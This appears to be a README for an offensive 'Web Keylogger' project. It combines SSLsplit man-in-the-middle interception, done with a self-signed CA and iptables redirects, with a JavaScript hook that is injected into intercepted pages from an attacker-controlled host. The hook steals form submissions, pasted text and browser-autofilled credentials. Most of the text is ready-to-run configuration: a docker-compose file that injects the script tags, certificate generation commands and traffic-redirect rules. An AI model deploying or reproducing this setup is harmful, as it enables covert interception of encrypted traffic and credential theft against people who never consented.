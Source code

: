 # Web Keylogger
Injection of hidden form and extraction of user's credentials if stored in browser.

## SSLSplit
[SSLsplit][1] is a tool for man-in-the-middle attacks against SSL/TLS encrypted
network connections.

![Schema](docs/sslSplit.svg)

## Keylogger
* Web-service logging data from the Hook and visualizing them

### JS Hook
* Intercepts:
  * data submitted to forms,
  * pasted text into webpage,
  * extracts user's credential by fakeing login form --- if credentials are stored for the domain, browser (Chrome, Firefox) injects them into hidden form

## docker-compose.yml

```
version: '3.5'

services: 
  sslsplit:
    image: nesatfit/sslsplit:latest
    build:
      dockerfile: ./docker/sslsplit/Dockerfile
      context: ./sslsplit
    container_name: keylogger_sslsplit
    environment:
      - HOOK_HOST=$HOOK_HOST
      - HOOK_PORT_HTTP=$HOOK_PORT_HTTP
      - HOOK_PORT_HTTPS=$HOOK_PORT_HTTPS
    command:
      -k key/ca.key  
      -c key/ca.crt 
      -D 
      -K key/ca.key
      -P
      -l log/connections.log 
      -S log 
      -H "<script src='http://$HOOK_HOST:$HOOK_PORT_HTTP/hook' type='text/javascript'></script>" 
      -H "<script src='https://$HOOK_HOST:$HOOK_PORT_HTTPS/hook' type='text/javascript'></script>" 
      https 0.0.0.0 8443 
      http 0.0.0.0 8080
    network_mode: "host"
    volumes:
      - ./data:/data
    working_dir: /data
    restart: unless-stopped

  keylogger:
    image: nesatfit/keylogger:latest
    build:
      context: ./keyloggerServer
    container_name: keylogger
    command: --db=mongo --hook_host=$HOOK_HOST --hook_port_http $HOOK_PORT_HTTP --hook_port_https $HOOK_PORT_HTTPS 
    ports:
      - 8081:80
      - 8445:443  
      - 7000:7000
    restart: unless-stopped

  mongo:
    container_name: keylogger_mongo 
    image: mongo
    restart: unless-stopped
```

## Server Setup

```bash
$ mkdir -p data/{key,log}
$ vim docker-compose.yml # modify env variables to reflect your environment
$ openssl req -x509 -newkey rsa:2048 -nodes -keyout data/key/ca.key -out data/key/ca.crt -days 3650 -subj '/CN=EasyPi'
$ docker-compose up -d
```

```bash
# setup
sysctl -w net.ipv4.ip_forward=1
iptables -P FORWARD ACCEPT
iptables -t nat -N SSLSPLIT
iptables -t nat -A SSLSPLIT -p tcp --dport 80 -j REDIRECT --to-ports 8080
iptables -t nat -A SSLSPLIT -p tcp --dport 443 -j REDIRECT --to-ports 8443

# enable
iptables -t nat -A PREROUTING -j SSLSPLIT

# disable
iptables -t nat -D PREROUTING -j SSLSPLIT
```

## Client Setup

```bash
# ip route del to default via XXX.XXX.XXX.XXX
# ip route add default via YYY.YYY.YYY.YY

curl -k https://www.messenger.com
```

> ProTip: No warning dialog after importing `ca.crt` into system/browser.

## read more

- <https://blog.heckel.xyz/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/>

[1]: <http://www.roe.ch/SSLsplit>
